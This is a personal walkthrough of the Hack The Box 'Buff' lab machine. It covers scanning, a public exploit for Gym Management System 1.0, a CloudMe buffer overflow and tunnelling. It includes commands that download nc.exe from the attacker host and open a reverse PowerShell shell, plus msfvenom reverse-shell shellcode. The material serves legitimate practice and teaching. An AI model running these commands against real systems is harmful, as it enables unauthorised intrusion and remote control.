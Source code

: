 # Buff Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

`nmap -sC -sV -oA buff 10.10.10.198` 
### or 
`nmap -p- -sV -oA bufffull 10.10.10.198`

# ${{\color{purple}Initial Foothold}}\ $

* Inspect source code
* Launch gobuster at the same time 

`gobuster dir -u http://10.10.10.198:8080/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out`
* Download an image and look at the metadata check the date of upload with `exiftool`
* Visit the site as a user :white_check_mark:
* Add a proxy in the exploit to redirect flows to burp

`searchsploit Gym Management System 1.0`

# ${{\color{purple}Exploitation}}\ $
https://www.exploit-db.com/48506

`searchsploit -m php/webapps/48506.py`

`python2.7 48506.py http://10.10.10.198:8080`

`curl http://10.10.X.X:80/nc.exe -o nc.exe && nc.exe 10.10.X.X 444 -e powershell`
### or 
`powershell Invoke-WebRequest -Uri http://10.10.X.X/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe`

`netstat -an | findstr "LISTENING"`
### Windows Machine :
`.\chisel.exe client 10.10.16.5:9002 R:3306:localhost:3306 R:8888:localhost:8888`
### kali Machine :
`./chisel server --reverse --port 9002`

# ${{\color{purple}Privilege Escalation}}\ $
https://www.exploit-db.com/exploits/48389

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=1234 EXITFUNC=thread-b '\x00\x0A\x0D' -f python`

`python buffer_CloudMe_1112.py`

# ${{\color{purple}Points of Improvement}}\ $

* Use `netcat wget powershell` to avoid being locked into a bad shell 
* Do the post exploitation by hand before using tools like `WinPeas.exe`
* Don't forget to change the variable names when I use msfvenom
